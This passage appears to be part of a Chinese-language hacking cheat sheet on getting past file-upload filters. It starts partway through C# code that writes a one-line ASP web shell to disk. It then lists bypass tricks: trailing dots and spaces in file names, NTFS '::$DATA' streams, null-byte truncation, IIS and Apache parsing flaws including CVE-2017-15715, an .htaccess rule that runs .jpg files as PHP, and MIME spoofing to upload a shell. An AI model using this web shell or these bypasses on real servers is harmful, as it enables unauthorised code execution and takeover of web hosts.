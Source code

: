 ```
        file1.Write("<%response.clear:execute request("put"):response.End%>");
        file1.Flush();
        file1.Close();       
    }
    public bool IsReusable {
        get {
            return false;
        }
    }

} 
```

#### 特殊文件名绕过

```
比如发送的 http 包里把文件名改成 test.asp. 或 test.asp_(下划线为空格)，这种命名方式
在 windows 系统里是不被允许的，所以需要在 burp 之类里进行修改，然后绕过验证后，会
被 windows 系统自动去掉后面的点和空格，但要注意 Unix/Linux 系统没有这个特性。 
```

#### Windows 流特性绕过

```
php 在 windows 的时候如果文件名+"::$DATA"会把::$DATA 之后的数据当成文件流处理,不会检测后缀名.且保持"::$DATA"之前的文件名。 
```

### 白名单后缀绕过

#### 00 截断绕过上传

```
php .jpg   空格二进制 20 改为 00
IIS 6.0 目录路径检测解析绕过
上传路径改为
XXX/1.asp/ 
```

#### htaccess 解析漏洞

```
上传的 jpg 文件都会以 php 格式解析
.htaccess 内容：
AddType    application/x-httpd-php    .jpg 
```

#### 突破 MIME 限制上传

```
方法：找一个正常的可上传的查看其的 MIME 类型，然后将马子的 MIME 改成合法的 MIME 即可。 
```

#### Apache 解析漏洞

```
1.一个文件名为 test.x1.x2.x3 的文件，apache 会从 x3 的位置开始尝试解析，如果 x3 不属于 apache 能够解析的扩展名，那么 apache 会尝试去解析 x2，直到能够解析到能够解析的为止，否则就会报错。
2.CVE-2017-15715，这个漏洞利用方式就是上传一个文件名最后带有换行符(只能是\x0A，如上传 a.php，然后在 burp 中修改文件名为 a.php\x0A)，以此来绕过一些黑名单过滤。 
```
